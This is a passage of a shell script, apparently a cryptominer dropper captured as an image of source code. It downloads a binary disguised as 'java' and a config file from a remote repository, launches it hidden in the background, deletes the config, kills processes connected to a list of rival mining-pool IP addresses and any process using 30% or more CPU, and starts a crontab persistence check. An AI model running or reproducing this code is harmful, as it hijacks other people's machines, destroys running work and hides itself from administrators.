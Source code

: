 ```
            ;;
            *)
                echo "Java wrong"
                download2
            ;;
        esac
    else
        echo "No md5sum"
        download2
    fi
}

download2() {
    $WGET $DIR/java https://bitbucket.org/zrundr42/mygit/raw/master/x_64

    if [ -x "$(command -v md5sum)" ]
    then
        sum=$(md5sum $DIR/java | awk '{ print $1 }')
        echo $sum
        case $sum in
            71849cde30470851d1b2342ba5a5136b | b00f4bbd82d2f5ec7c8152625684f853)
                echo "Java OK"
                cp $DIR/java $DIR/pscf3
            ;;
            *)
                echo "Java wrong"
            ;;
        esac
    else
        echo "No md5sum"
    fi
}

netstat -antp | grep '158.69.133.20\|192.99.142.249\|202.144.193.110\|192.99.142.225\|192.99.142.246\|46.4.200.177\|192.99.142.250\|46.4.200.179\|192.99.142.251\|46.4.200.178\|159.65.202.177\|185.92.223.190\|222.187.232.9\|78.46.89.102' | grep 'ESTABLISHED' | awk '{print $7}' | sed -e "s/\/.*//g" | xargs kill -9
if [ "$(netstat -ant|grep '158.69.133.20\|192.99.142.249\|202.144.193.110\|192.99.142.225\|192.99.142.246\|46.4.200.177\|192.99.142.250\|46.4.200.179\|192.99.142.251\|46.4.200.178\|159.65.202.177\|185.92.223.190\|222.187.232.9\|78.46.89.102'|grep 'ESTABLISHED'|grep -v grep)" ];
then
    ps axf -o "pid %cpu" | awk '{if($2>=30.0) print $1}' | while read procid
    do
        kill -9 $procid
    done
else
    echo "Running"
fi

if [ ! "$(ps -fe|grep '/tmp/java'|grep 'w.conf'|grep -v grep)" ];
then
    downloadIfNeed
    chmod +x $DIR/java
    $WGET $DIR/w.conf https://bitbucket.org/zrundr42/mygit/raw/master/w.conf
    nohup $DIR/java -c $DIR/w.conf > /dev/null 2>&1 &
    sleep 5
    rm -rf $DIR/w.conf
else
    echo "Running"
fi

if crontab -l | grep -q "46.249.38.186"
then
```